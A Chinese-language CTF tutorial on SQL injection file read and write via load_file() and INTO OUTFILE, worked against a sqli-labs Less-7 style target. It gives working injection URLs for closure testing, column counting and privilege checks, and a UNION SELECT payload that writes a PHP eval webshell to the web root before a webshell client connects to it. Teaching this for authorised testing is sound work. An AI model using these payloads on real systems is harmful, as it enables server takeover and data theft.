

<!--
author: maomao
title: 2.6sql注入之文件注入
category: web安全入门
status: publish
summary: 文件读取注入指的是我们可以利用sql的函数来进去下载和上传文件。我们可以利用此来上传木马获取shell，或者来下载系统文件。
-->

##一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

##二、简介

文件读取注入指的是我们可以利用sql的函数来进去下载和上传文件。我们可以利用此来上传木马获取shell，或者来下载系统文件。

##三、函数介绍

sql文件注入主要采用下面的两个函数，同时能否上传或者下载成功还存在诸多的限制。

###读取文件：load_file(）

>1. 当前权限对该文件可读
>2. 文件在该服务器上
>3. 路径完整
>4. 文件大小小于max_allowed_packet
>5. 当前数据库用户有FILE权限
>6. secure_file_priv的值为空，如果值为某目录，那么就只能对该目录的文件进行操作

###上传文件：

>1. 目标目录要有可写权限
>2. 当前数据库用户要有FILE权限
>3. 目标文件不能已存在
>4. secure_file_priv的值为空
>5. 路径完整

##四、题目链接

>http://39.98.88.18:49005/Less-7/index.php?id=1

##五、and 判断闭合

在前面几关中，我们在语句后面添加一个单引号，语句报错。同时，显示出报错语句，我们可以根据来进行闭合。然后注入。

但是在下面的关卡中，将不会像前面几关那样爆出sql语句的错误，而是给了我们一个提示，告诉我们sql语句错误。

加单引号后报错，虽然没有给出sql错误语句。但是可以判断的是，后台已经将sql语句带入了数据库中执行。

因此可以判定存在注入。

接下来我们尝试闭合，我们使用的闭合语句如下：

> ' and 1=1 --+

> ' and 1=2 --+

or　运算符只有当两边同是为真的时候才为真。为真则显示结果，为假则不显示。看如下链接

>http://39.98.88.18:49005/Less-7/index.php?id=1' and  1=1 --+

我们将其带入数据中执行一下：

可以看出1=1为永真，如果我们使用　' and 1=1测试的时候，返回了正常页面，则可以说明两边为真。即前面闭合成功。此时，我们再用１＝２，提示错误。则说明闭合成功

##六、实战

1、闭合

用上面的方法进行判断，发现其是可以用’))来闭合。

>http://39.98.88.18:49005/Less-7/index.php?id=1')) and 1=1--+

>http://39.98.88.18:49005/Less-7/index.php?id=1')) and 1=2--+

2.判断列数

>http://39.98.88.18:49005/Less-7/index.php?id=1')) order by 4--+

３.判断权限

有网页的文件可以得知，我们需要outfile..所以我们尝试文件注入来进行上传文件。首先先判读一下权限。

>http://39.98.88.18:49005/Less-7/index.php?id=1')) and (select count(*) from mysql.user)>--+

如果返回成功，则表示是系统的最高权限，即root权限，否则不是，即一般不可对其进行文件注入

接下来需要进行网站绝对路径的判断，在此不过多叙述：

>https://blog.csdn.net/jihaichen/article/details/80211769

4.上传木马

>http://39.98.88.18:49005/Less-7/index.php?id=1')) union select 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile '/var/www/html/1.php'--+

执行完上面的url以后，页面报错。我们看一下我们的木马是否上传成功。在浏览器访问我们的木马地址

>http://39.98.88.18:49005/1.php

发现此时上传成功，并且成功解析。

５．使用菜刀连接

由于本人使用的是kali。weevely 生成的木马实在太长，试了好多次都没有上传成功。所以我就复制了一个上去

可以看出连接成功

关于菜刀的连接一句话还望大佬们自己尝试。有问题可以随时在星球留言。

6.load_file() 函数在此不过多叙述，使用方法与into outfile 类似.例子如下：

>http://127.0.0.1/index.php?age=-1 union select 1,2,3,4,load_file(‘H:/wamp64/www/233.php’)

日后遇到比较好的靶场，再给大家详细讲解。

##七、课后练习

CTF赛题地址：https://t.zsxq.com/r7mMV7a

关于CTF赛题有任何的问题请在星球或者微信群里面＠江江河畔砍柴人。我将会在第一时间解答。

##八、小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

及时获取更多消息，请关注微信订阅号

